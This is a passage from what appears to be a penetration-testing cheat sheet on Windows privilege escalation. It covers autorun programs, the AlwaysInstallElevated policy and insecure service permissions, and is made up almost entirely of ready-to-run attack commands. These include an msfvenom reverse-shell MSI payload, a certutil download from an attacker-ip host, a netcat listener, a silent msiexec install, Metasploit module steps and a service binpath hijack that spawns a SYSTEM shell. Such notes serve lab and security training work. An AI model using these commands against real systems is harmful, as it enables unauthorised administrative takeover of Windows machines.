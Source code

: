   - `run`
- Delivery
	- Move the program.exe on the windows machine
	- `python3 -m http.server 1337`
  - In windows machine, download the file under `C:\Program Files\Autorun Program`
- Once a high privilege user run the programs, a reverse shell is gained in metasploit

**AlwaysInstallElevated**
- The windows installer is a utility which through the use MSI packages can install new software. The AlawysInstallElevated is a Windows policy that allows unprivileged users to install software through the use of MSI packages using SYSTEM level permissions, which can be exploited to gain administrative access over a Windows machine.
- Check whether the required registry keys are enabled.
	- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
	- `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
	- The value in following registry keys has to be set to 1.
- Check using winpeas.
	- `winpeas.exe quiet systeminfo`
- Exploitation
	- Payload Generation
		- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f msi > shell.msi`
	- Delivery
		- `python3 -m http.server 1337`
	- Download
		- `certutil -urlcache -split -f "http://<attacker-ip>:1337/shell.msi" shell.msi`
	- Netcat Listener
		- `nc -lvnp 4444`
	- The following command can then be used to install the .msi file
		- `msiexec /quiet /qn /i shell.msi`
- Using Metasploit
	- In Meterpreter
		- `background`
		- `search alwaysinstallelevated`
		- `use /eploit/windows/local/always_install_elevated`
		- `set session 1`
		- `exploit`
- More on: https://steflan-security.com/windows-privilege-escalation-alwaysinstallelevated-policy/

**Service Escalation: Insecure Service Permissions**
- Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:
	- `C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`
- Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).
- Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):
	- `sc qc daclsvc`
- Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:
- `sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`
- Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
	- `net start daclsvc`
	